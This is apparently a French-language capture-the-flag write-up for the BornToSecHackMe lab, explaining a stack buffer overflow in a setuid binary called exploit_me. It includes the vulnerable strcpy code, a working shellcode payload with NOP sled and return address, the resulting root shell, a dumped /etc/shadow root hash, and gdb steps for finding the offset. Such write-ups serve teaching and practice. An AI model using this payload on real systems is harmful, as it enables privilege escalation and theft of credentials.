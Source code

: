 En désassemblant ce binaire, on peux trouvé un code assez simpliste:
```
uint main(int param_1,int param_2)

{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return (uint)(param_1 < 2);
}
```
Effectivement, le BOF se confirme. strcpy est une fonction dangeureuse et rien ne vérifie la longueur de la chaine a copié.
On va donc pouvoir écrire sur la stack.

```
zaz@BornToSecHackMe:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "\x90" * 95 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "p\xf6\xff\xbf"')
������������������������������������������������������������������������������������������������^�1��F�F
                                                                                                        �
                                                                                                         ����V
                                                                                                              1ۉ�@�����/bin/shp���
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# whoami
root
# cat /etc/shadow
root:$6$P3HXAOsR$Lmz85I7RXUJLU8KR.C2okbToyNfq5QIDj6YOoWYilDWQ3e.dhXC/bamN4xLcAZVHHLFuszMaGD6nRa5HrFAls0:16723:0:99999:7:::
[...]
```

**Comment sa marche ?**

D'abord il faut trouver la longueur du buffer, en le désassemblant avec ghidra, on trouve la longueur de 140. Pour s'en convaicre:
```
gdb-peda$ r < <(python -c 'print "A" * 140 + "BBBB"')
[...]
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
On a bien notre adresse de retour qui a été écrasé.
Maintenant, on va chercher l'address qui pointe sur notre buffer
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/zaz/exploit_me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048425 in main ()
(gdb) x/24xw $esp
0xbffff660:     0xbffff670      0xbffff8cc      0x00000001      0xb7ec3c49
```